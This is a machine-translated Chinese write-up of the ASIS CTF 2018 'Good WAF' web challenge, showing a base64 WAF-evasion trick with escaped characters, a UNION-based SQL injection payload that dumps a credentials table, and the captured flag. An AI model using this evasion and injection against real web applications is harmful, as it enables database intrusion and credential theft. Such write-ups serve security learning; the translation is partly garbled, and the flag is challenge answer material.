 # WAF 规避— Base64 参数— ASISCTF 2018 Quals —良好的 WAF 问题记录(网络任务)

> 原文：<https://infosecwriteups.com/waf-evasion-base64-parameter-asisctf-2018-quals-good-waf-question-write-up-web-task-c8454d33ba4d?source=collection_archive---------3----------------------->

参与者被问了以下问题。

> 描述:
> 
> WAFs 无法检测填充了不透明数据(如 base64)的参数。因此，我们已经调整了我们的[晶片](http://167.99.12.110/)来更强地检查这些输入。
> 
> **提示 1** : base64(json_object)

从这个问题中，可以理解为我们被赋予了一个受 WAF 保护的 base64 输入。打开网址[http://167.99.12.110/](http://167.99.12.110/):

![](img/9c9a5d7e72b37b44aaaf76321b25633b.png)

网络问题/好的 WAF

我从转换成 base64 开始

```
**Notice**: Undefined property: stdClass::$data in **/var/www/html/index.php** on line **37**
```

所以合适的对象是`{"data":"1"}`，我得到了结果。之后，我尝试在 object 中注入 SQL 查询，尝试了大多数可能的方法(大约 1 小时),得到了:

![](img/d3ae5c5d94da5aa4927e44facaed1280.png)

检测到晶片

在我发现了 base64 数据中的一个技巧后，我走错了路

```
echo irGeeks | base64 | sed 's/./\\&/g;s/&//' | xargs -I x sh -c "echo x | base64 -d"
```

我立即测试了恶意输入，达到了我想要的效果。

```
[?object=\e\y\J\k\Y\X\R\h\I\j\o\i\M\S\c\i\f\Q\=\=](http://167.99.12.110/?object=\e\y\J\k\Y\X\R\h\I\j\o\i\M\S\c\i\f\Q\=\=)
```

在一些基本的查询之后，它变成了一个简单的 SQLi:

```
{"data":"-1' union all select 1,group_concat(id,0x7c,username,0x7c,password,0x7c,role) from credentials-- -"}
```

导致了:

```
1|valid_user|5f4dcc3b5aa765d61d8327deb882cf99|administrator
```

等等，登录页面在哪里？有一个名为`access_logs`的表包含一些 apache 访问日志行，在`id=14`中，一个 URL 被泄露

```
14|167.99.12.110 - - [22/Apr/2018:15:40:23 +0430] "GET /?action=log-in HTTP/1.1" 200 681 "-" "Mozilla/5.0 (Linux; Android 6.0.1; SM-G920V Build/MMB29K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.98 Mobile Safari/537.36"
```

访问网址`/?action=log-in`:

```
**Notice**: Undefined index: credentials in **/var/www/html/index.php** on line **21**

**Notice**: Undefined index: credentials in **/var/www/html/index.php** on line **22**
Invalid Credentials.
```

> [凭证](http://167.99.12.110/?action=log-in&credentials[]=valid_user&credentials[]=password) [=](http://167.99.12.110/?action=log-in&credentials=)

```
**Notice**: Uninitialized string offset: 0 in **/var/www/html/index.php** on line **21**

**Notice**: Uninitialized string offset: 1 in **/var/www/html/index.php** on line **22**
Invalid Credentials.
```

> [凭证[]=有效 _ 用户&凭证[]=密码](http://167.99.12.110/?action=log-in&credentials[]=valid_user&credentials[]=password)

```
**ASIS{e279aaf1780c798e55477a7afc7b2b18}**
```